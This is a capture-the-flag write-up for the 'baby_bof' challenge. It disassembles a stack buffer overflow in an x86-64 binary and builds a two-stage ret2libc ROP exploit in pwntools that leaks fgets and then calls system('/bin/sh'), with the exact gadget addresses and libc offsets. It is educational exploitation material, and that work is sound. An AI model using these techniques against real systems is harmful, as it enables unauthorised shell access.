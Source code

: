 # Baby bof

In this challenge you are given a binary, `baby_bof` and a dockerfile, and you are required to find the flag, presumably through `system('/bin/sh')`.

Running the binary, you get the following output, with the input being `asdf`:
```
$ ./baby_bof
plz don't rop me
asdf
i don't think this will work
```
So, opening up the binary in Radare2 and running the `i` command:
```
[0x004005f2]> i
fd       3
file     baby_bof
size     0x20d8
humansz  8.2K
mode     r-x
format   elf64
iorw     false
block    0x100
type     EXEC (Executable file)
arch     x86
baddr    0x400000
binsz    6549
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```
We see that this binary has no stack canary and isn't a PIE. So, this is a candidate for a stack buffer overflow.

Coming back to r2, we look in the disassembly of `main` and see that it runs `vuln`.
`vuln` is just a basic buffer overflow vulnerability: it gets `0x100` bytes into a `0x10` byte buffer with `fgets`.
```
┌ 59: sym.vuln ();
│           ; var char *s @ rbp-0xa
│           0x004005b7      55             push rbp
│           0x004005b8      4889e5         mov rbp, rsp
│           0x004005bb      4883ec10       sub rsp, 0x10
│           0x004005bf      488d3dde0000.  lea rdi, str.plz_dont_rop_me    ; 0x4006a4 ; "plz don't rop me" ; const char *s
│           0x004005c6      e8d5feffff     call sym.imp.puts           ;[2] ; int puts(const char *s)
│           0x004005cb      488b156e0a20.  mov rdx, qword [obj.stdin]    ; obj.__TMC_END__
│                                                                      ; [0x601040:8]=0 ; FILE *stream
│           0x004005d2      488d45f6       lea rax, [s]
│           0x004005d6      be00010000     mov esi, 0x100              ; 256 ; int size
│           0x004005db      4889c7         mov rdi, rax                ; char *s
│           0x004005de      e8ddfeffff     call sym.imp.fgets          ;[3] ; char *fgets(char *s, int size, FILE *stream)
│           0x004005e3      488d3dcb0000.  lea rdi, str.i_dont_think_this_will_work    ; 0x4006b5 ; "i don't think this will work" ; const char *s
│           0x004005ea      e8b1feffff     call sym.imp.puts           ;[2] ; int puts(const char *s)
│           0x004005ef      90             nop
│           0x004005f0      c9             leave
└           0x004005f1      c3             ret
```

So, what is our goal? Preferably, `/bin/sh`. How can we do that relatively easily, with a ROP chain and no pre-existing code? Ret2libc.
That's where the `Dockerfile` comes in. Looking in the dockerfile, you see it pulls a certain version of Ubuntu.
Except if Ubuntu 20.04 has updated its glibc during the CTF, the glibc installed in this dockerfile should be the exact same build as the one on the remote system.

So, to get the glibc:
```bash
mkdir tmp && cd $_
cp ../Dockerfile .
docker build .
docker images | head -2 # copy the image's ID, in my case it's b9513f2c6b0d
docker image save b9513f2c6b0d > img.tar
tar xf img.tar
for f in `ls */layer.tar`; do
	tar xf $f
done
cp `find -name libc.so.6` ..
```

Now we have the glibc, lets find some offsets. What do we need offsets for, though?

## First chain

Thinking ahead, we should get the offset for a function in the GOT that has already been called before the exploit runs. Lets pick `fgets()`.

So, to find `fgets()` in `libc.so.6`, we open it up in Radare2, run the `aaaa` command to analyse the binary, and then run the command `s sym.fgets`.
This leaves us at the address `0x000857b0`, where `0x0` is the base address.
Next, we want the address of `system()`. Through the same process as `fgets()`, we find the offset `0x00055410`.
Finally, we want the string `/bin/sh`. To find this, run the `/ /bin/sh` in Radare2 to get the offset `0x001b75aa`.

Now we have all our offsets, we can start searching for gadgets to construct our ROP chain.

First, we want gadgets to print the address of `fgets()` in glibc so that we can use this to calculate offsets.
So, we need a gadget to `pop rdi`. Using `ropper -f baby_bof --search 'pop rdi'` we get the gadget `pop rdi; ret;` at `0x400683`, which is optimal.

Next, we need a function to call and some arguments to apply.

I've picked the function `puts()`, and will be accessing it via the Procedure Linkage Table. So, we run `s sym.imp.puts` in r2 to get the address `0x4004a0`.
As an argument, we will have the GOT entry of `fgets()`, so that we can leak the libc address. To find this, just run `s sym..got.plt` in r2, and find the address of `reloc.fgets`, which is `0x601028` in our case.

Finally, we need a return address. Because we want to run another chain after this, we just set this to the start of `vuln`, so `0x4005b8` (not `0x4005b7 because we've messed up our base pointer in the previous chain).

So, joining it all together:
```python
from pwn import *

fgets_offset = 0x0857b0
str_bin_sh_offset = 0x1b75aa
system_offset = 0x055410

poprdi = p64(0x400683)
puts_plt = p64(0x4004a0)
fgets_got = p64(0x601028)
vuln = p64(0x4005b8)

payload = (b'\x41'*18) + poprdi + fgets_got + puts_plt + vuln
```
I found the offset of 18 by stepping through the execution in PwnDbg.

Now, when we send this to our server, it sends back the address of `fgets` in glibc.

Now, from that we can calculate our absolute addresses for `/bin/sh` and `system()` in glibc.

## Second chain

This chain just uses our calculated libc addresses to pop a shell:
```python
...
recvd = # get received address and convert it to an integer
base = recvd - fgets_offset

str_bin_sh = p64(base + str_bin_sh_offset)
system = p64(base + system_offset)

payload = (b'\x41'*18) + poprdi + str_bin_sh + system
```

The final script is in [sol.py](sol.py).
